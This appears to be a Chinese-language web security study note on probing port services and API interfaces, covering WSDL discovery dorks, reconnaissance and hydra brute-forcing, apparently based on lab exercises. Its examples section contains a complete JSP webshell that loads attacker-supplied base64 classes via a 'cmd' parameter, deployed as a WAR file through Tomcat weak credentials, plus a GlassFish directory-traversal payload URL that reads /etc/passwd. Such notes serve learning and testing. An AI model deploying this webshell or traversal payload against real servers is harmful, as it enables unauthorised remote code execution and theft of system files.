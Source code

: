```yaml
---
title: "接口服务漏洞探针" # 文章标题.
date: 2023-04-20
draft: false
tags: ["WEB安全"]
categories: ["WEB安全"]
---
```


# 接口服务漏洞探针

![服务协议](./服务协议.png)

## 端口服务类安全测试

根据前期信息收集针对目标端口服务类探针后进行的安全测试，主要涉及攻击方法：口令安全，WEB类漏洞，版本漏洞等，其中产生的危害可大可小。属于端口服务/第三方服务类安全测试面。一般在已知应用无思路的情况下选用的安全测试方案。 

![常见端口](./常见端口.png)

## API接口-WebServiceRESTful API

根据应用自身的功能方向决定，安全测试目标需有 API 接口调用才能进行此类测试，主要涉及的安全问题：自身安全，配合 WEB，业务逻辑等，其中产生的危害可大可小，属于应用 API 接口网络服务测试面，一般也是在存在接口调用的情况下的测试方案。参考`https://xz.aliyun.com/t/2412`

### Api接口类

webapi的概念：网站的很多功能如产品管理，支付，短信等等，都不是自己开发的功能，而是调用的其它网站的api接口（相当于一个插件）

### WSDL

webservice接口调用传输数据的格式，是XML的一种。

#### 查找接口

1. 通过网站的界面和功能特点进行查找（如涉及到支付功能、短信验证等等）。

2. 通过爬虫语言扫描，发现网站的一些特定的URL。

```wsdl
inurl:jws?wsdl
inurl:asmx?wsdl
inurl:aspx?wsdl
inurl:ascx?wsdl
inurl:ashx?wsdl
inurl:dll?wsdl
inurl:exe?wsdl
inurl:php?wsdl
inurl:pl?wsdl
inurl:?wsdl
filetype:wsdl
```

![WSDL基础分析](./WSDL/WSDL基础分析.png)

分析WSDL的属性。

![属性分析](./WSDL/属性分析.png)

找出对应的接口

![服务的接口](./WSDL/服务的接口.png)

找出对应的服务地址

![服务地址](./WSDL/服务地址.png)

## web的信息收集

有端口和无端口可能是两套程序，两个目标！

子域名搜集，搜集的站点越多，目标越多，机会越多，可能越多！

whois信息查询，网站注册人查询

域名和ip地址映射的目录不同，所以对于目录和IP都需要扫描，作信息收集，ip与域名对应的端口，敏感文件信息扫描，一般情况下ip对应的是所有的网站，而域名对应一个网站。

网站备份文件下载。

可以对非http的通信进行本地爆破，可以使用`hydra`工具，例如MySQL，等等。

## 实例

### 端口服务类-tomcat弱口令安全问题

![Tomcat8题目](./Tomcat8getshell/Tomcat8题目.png)

如何不通过Maven直接传WAR包，写一个jsp文件，然后将其压缩为zip格式，然后在将zip格式修改为war格式即可，jsp文件是一个一句话。其代码如下：

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
      Class base64;
      byte[] value = null;
      try {
        base64=Class.forName("sun.misc.BASE64Decoder");
        Object decoder = base64.newInstance();
        value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] {String.class }).invoke(decoder, new Object[] { str });
      } catch (Exception e) {
        try {
          base64=Class.forName("java.util.Base64");
          Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
          value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { str });
        } catch (Exception ee) {}
      }
      return value;
    }
%>
<%
    String cls = request.getParameter("cmd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(new Object[]{request,response});
    }
%>
```

蚁剑连接，测试成功，拿到shell。

![蚁剑连接](./Tomcat8getshell/蚁剑连接.png)

### GlassFish 任意文件读取漏洞

![题目](./GlassFish/题目.png)

java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

所以Payload为

`https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`

![成功](./GlassFish/成功.png)

